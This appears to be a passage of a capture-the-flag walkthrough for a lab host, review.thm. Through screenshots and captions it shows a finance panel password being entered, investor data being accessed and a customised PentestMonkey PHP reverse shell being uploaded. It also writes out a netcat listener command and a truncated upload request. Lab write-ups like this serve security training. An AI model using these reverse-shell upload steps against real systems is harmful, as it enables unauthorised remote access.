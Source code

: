 <br>
<br>
<p align="center">Used Code Beautify JAVA Viewer --> https://codebeautify.org/javaviewer</p>

<img width="1476" height="589" alt="image" src="https://github.com/user-attachments/assets/c08182f8-b9ac-431c-8708-e841cd55886e" />

<br>
<br>
<p align="center">Entered Finance Panel password</p>

<img width="1608" height="642" alt="image" src="https://github.com/user-attachments/assets/c92ad941-e3f1-4222-8876-384df6c616b0" />

<br>
<br>
<p align="center">Accessed Investor Finance Table</p>

<img width="1000" height="470" alt="image" src="https://github.com/user-attachments/assets/f53dcdc5-fa76-409a-be69-951584a92c62" />


<br>
<br>
<p align="center">Customized PentestMonkey Reverse Shell<br>https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php</p>

<img width="1250" height="674" alt="image" src="https://github.com/user-attachments/assets/c8187ab1-e8da-4e1b-8f62-d877a66b3568" />

<br>
<br>
<p align="center">Set up a listener</p>

```bash
:~/Sequence# nc -nlvp 1234
Listening on 0.0.0.0 1234
```

<br>
<br>
<p align="center">Browse > Select > Open > Upload</p>

<img width="1701" height="325" alt="image" src="https://github.com/user-attachments/assets/6ee38640-4bf1-41aa-9647-0a8998954747" />

<br>
<br>

<img width="1520" height="462" alt="image" src="https://github.com/user-attachments/assets/33bef7ac-0fc2-4c75-bf47-69ec274a88a1" />

<br>
<br>
<br>
<br>
<br>
<h2 align="center">💥 uploads/r.php 💥</h2>

<p align="center"><em>Request</em></p>

```bash
POST /dashboard.php HTTP/1.1
Host: review.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------294878893521255911952443389194
Content-Length: 189
Origin: http://review.thm
Connection: close
```